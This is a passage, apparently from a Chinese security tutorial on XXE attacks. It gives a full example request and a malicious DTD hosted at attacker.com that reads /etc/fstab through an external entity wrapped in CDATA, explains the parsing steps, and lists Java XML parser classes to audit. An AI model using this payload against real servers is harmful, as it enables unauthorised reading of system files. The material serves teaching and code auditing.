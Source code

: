 考虑到上面的示例，攻击者现在可以通过创建在**attacker.com/evil.dtd上**托管的恶意DTD，将上面的理论CDATA示例转换为工作**攻击。** 

**request:**

```xml-dtd
POST http://example.com/xml HTTP/1.1

<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM
  "http://attacker.com/evil.dtd">
  %dtd;
  %all;
]>
<data>&fileContents;</data>
```

 **攻击者DTD（attacker.com/evil.dtd）** 

```xml-dtd
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```

解析：

当攻击者发送上述请求时，XML解析器将首先**%dtd**通过向**http://attacker.com/evil.dtd**发出请求来尝试处理参数实体**。**

一旦下载了攻击者的DTD，XML解析器将加载`%file`参数实体（来自**evil.dtd**），在本例中是`/etc/fstab`。然后它将分别`<![CDATA[ ]]>`使用`%start`和`%end`参数实体将文件的内容包装在标签中，并将它们存储在另一个名为的参数实体中`%all`。

这个技巧的核心是`%all`创建一个被调用的**通用**实体`&fileContents;`，它可以作为响应的一部分包含在攻击者中。

注-请记住，攻击者**可以**只使用DTD内参数实体，而不是内部的XML文档）

结果是回复攻击者，文件（`/etc/fstab`）的内容包含在`CDATA`标签中。

## 4.XXE审计函数

XML解析一般在导入[配置](http://www.liuhaihua.cn/archives/tag/%e9%85%8d%e7%bd%ae)、数据传输接口等场景可能会用到，涉及到XML文件处理的场景可查看XML解析器是否禁用外部实体，从而判断是否存在XXE。部分XML解析接口（常见漏洞出现函数）如下： 

```
javax.xml.parsers.DocumentBuilderFactory;
javax.xml.parsers.SAXParser
javax.xml.transform.TransformerFactory
javax.xml.validation.Validator
javax.xml.validation.SchemaFactory
javax.xml.transform.sax.SAXTransformerFactory
javax.xml.transform.sax.SAXSource
org.xml.sax.XMLReader
DocumentHelper.parseText
DocumentBuilder
org.xml.sax.helpers.XMLReaderFactory
org.dom4j.io.SAXReader
org.jdom.input.SAXBuilder
org.jdom2.input.SAXBuilder
javax.xml.bind.Unmarshaller
javax.xml.xpath.XpathExpression
javax.xml.stream.XMLStreamReader
org.apache.commons.digester3.Digester
rg.xml.sax.SAXParseExceptionpublicId
```
